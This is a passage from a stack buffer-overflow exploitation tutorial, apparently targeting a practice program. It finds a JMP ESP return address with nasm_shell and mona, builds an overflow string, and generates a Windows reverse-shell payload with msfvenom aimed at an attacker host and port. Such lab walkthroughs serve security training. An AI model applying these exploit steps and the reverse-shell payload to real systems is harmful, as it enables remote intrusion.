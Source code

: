 ```
locate nasm_shell
/usr/share/metasploit-framework/tools/exploit/nasm_shell.rb
```
What we need in terms of an opcode equivalence is we need to convert assembly language into hex code. We are going to use this JMP as a pointer to our shellcode.
```
nasm> JMP ESP
00000000  FFE4
```
The hex equivalent of JMP ESP is FFE4. Now in ImmunityDebugger we will use
```
!mona find -s "\xff\xe4" -m essfunc.dll
```
After the scan completes we are looking for return addresses for example:

```
0x625011af
0x625011bb
0x625011c7
0x625011d3
0x625011df
0x625011eb
0x625011f7
0x62501203
0x62501205
```
It's important to remember we want the return address with no memory protections. Instead of placing the 4 'B's we used to mark the EIP we will place the hex code of the return address of the vulnerable area of memory.
```
shellcode = "A" * 2003 + "\xaf\x11\x50\x62"
```
Notice that the bytes are placed in reverse, whenever we are working with x86 architechture we are working in little endian format.
First in ImmunityDebugger we will need to select the "Go to address in Disassembler" button, we will then go to 0x625011af.
Then press f2 to set a breakpoint (Or right click it and select toggle) the memory address should become bright blue.
We should see that Immunity has paused the program and we have hit our breakpoint.
We also should see in the EIP register that the EIP is in 0x625011af, this indicates we have full control of the EIP, all we need to do is generate shellcode and point to it.

# Generating the Shellcode
The moment we have all been waiting for. Now that all the hard work has been done we can generate our shellcode with the following command:
```
msfvenom -p windows/shell_reverse_tcp LHOST=<attacker_ip> LPORT=<attacker_port> EXITFUNC=thread -f c -a x86 -b "\x00"
msfvenom -p windows/shell_reverse_tcp LHOST=172.17.109.60 LPORT=4444 EXITFUNC=thread -f c -a x86 -b "\x00"
```
When generating this shellcode remember we would need to use the '-b' flag to avoid all of the bad characters.
It is important to keep note of the payload size because it is extremely important in exploit development. You must be sure there is sufficient space in memory for your exploit.
After the JMP instruction that places the EIP into the unprotected memory area we then have the EIP continue into our overflow using a NOP ('\x90')sled.
